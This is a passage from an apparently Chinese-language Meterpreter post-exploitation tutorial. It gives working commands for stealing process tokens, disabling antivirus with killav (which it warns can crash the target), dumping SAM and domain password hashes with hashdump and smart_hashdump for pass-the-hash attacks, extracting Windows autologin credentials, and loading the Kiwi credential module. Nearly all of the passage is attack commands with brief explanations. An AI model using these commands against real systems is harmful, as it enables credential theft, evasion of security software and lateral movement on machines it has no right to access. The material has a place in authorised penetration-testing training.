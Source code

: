 欺骗实用！  

2）steal_token 窃取令牌

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibWXMIWqg0EyUwEoZianjoic6Ronc9lu0D0MiaBSjNU5u2x6uj838HKv97g/640?wx_fmt=png)

```
steal_token <pid值>   #从指定进程中窃取token   先ps
drop_token  #删除窃取的token
```

这种方法如果不是 SYSTEM 权限的话是无法窃取 SYSTEM 权限的，只能窃取相关的权限

13. 关闭杀软  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibrEplm9iaW88FGcXWpibqSENQtdlDqJzd3uqvBJ2SCDw9T0k8Kz3BFQibw/640?wx_fmt=png)

```
meterpreter> run killav //这个脚本要小心使用，可能导致目标机器蓝屏死机
```

14. 密码抓取

1）hashdump 导出密码哈希  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibWPCT1ficuSPWVeltEDv91ESEbicdmYP87ZNxQds6Rnu8fmPUrcFfbfhA/640?wx_fmt=png)

```
run hashdump
```

hashdump 模块可以从 SAM 数据库中导出本地用户账号，该命令的使用需要系统权限

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibkZzrFuat2Y56HoGjHlCtXOicQVKxxClr7FSFA8vuUMXL9Xib309KWwfQ/640?wx_fmt=png)

```
run windows/gather/smart_hashdump
```

还可以使用以上命令，该命令的使用需要系统权限，该功能更强大，可以导出域内所有用户的 hash！！

smart_hashdump 还可以配合 PSExec 模块进行哈希攻击…

2）抓取自动登录的密码

很多用户习惯将计算机设置自动登录，可以使用以下抓取自动登录的用户名和密码

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibOZJuic3MJVEiawH33picRd4Ycy5ibzLWC7RibWApSJuokPOrTjH5eOtichDA/640?wx_fmt=png)

```
run windows/gather/credentials/windows_autologin
```

3）wiki 模块使用

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibpTOKz41O9fibUTOib4QmV8HXqdiabgf3Tlyzf2gd1bCru3BYrLW4ic5vvA/640?wx_fmt=png)

可以看到提示：

```
[!] Loaded x86 Kiwi on an x64 architecture
```

